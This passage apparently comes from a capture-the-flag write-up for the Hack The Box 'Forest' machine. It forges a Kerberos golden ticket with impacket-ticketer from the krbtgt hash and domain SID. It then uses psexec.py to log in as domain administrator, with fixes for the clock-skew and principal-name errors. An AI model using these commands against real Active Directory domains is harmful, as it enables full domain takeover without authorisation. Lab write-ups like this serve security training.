- Try to crack all the NTLM hashes of the domain users
- Make a golden ticket
- Perform the same attack but use [BloodHound](https://github.com/BloodHoundAD) to automate the process of finding this path from `svc-alfresco` to `Administrator`
  - A good walkthrough for this can be found here: https://www.youtube.com/watch?v=H9FcE_FMZio

From the above list, the following will attempt to make a golden ticket for the domain:

- `nthash` is the NTLM of the `krbtgt` user from the `NTDS.DIT` dump
- `domain-sid` is the first part of the SID for any user on the domain. Run `whoami /all` and remove the last part of the SID column after and including the `-`. For example, the user `svc-alfresco` has the SID `S-1-5-21-3072663084-364016917-1341370565-1147`. The Domain SID is `S-1-5-21-3072663084-364016917-1341370565`
  - https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v%3Dws.10)
- The username needs to be a valid username on the domain (or sometimes weird stuff will happen...)

```bash
# generate golden ticket
impacket-ticketer \
  -nthash 819af826bb148e603acb0f33d17632f8\
  -domain-sid S-1-5-21-3072663084-364016917-1341370565 \
  -domain htb.local \
  administrator
# add ticket to path
export KRB5CCNAME=$(pwd)/administrator.ccache
# use ticket to login
psexec.py -k -no-pass -dc-ip 10.10.10.161 htb.local/administrator@10.10.10.161
```

This returns and error:

```
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

This is because Kerberos uses the current time to prevent network replay attacks. Get the date on the target in UTC with `(date).ToUniversalTime()` in PowerShell and then get the date in UTC on Kali with `date -u`. Then just figure out the delta between the two. When doing this writeup, the target was approximately 8 minutes and 30 seconds ahead of Kali. Then just run the following depending on your delta with the target:

- https://unix.stackexchange.com/questions/161891/how-to-move-system-clock-time-forward-backward

```bash
sudo date --set='+8 minutes +30 seconds'
```

Now, after running the `psexec.py` command, a new error is given:

```
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

This is due to some NetBIOS name issues. The following will fix this by setting the NetBIOS name to the target's hostname and setting the target IP seperately:

```bash
psexec.py -k -no-pass -dc-ip 10.10.10.161 -target-ip 10.10.10.161 htb.local/administrator@forest
```



And that is a golden ticket to login as domain admin on all machines in the domain (if there were other machines).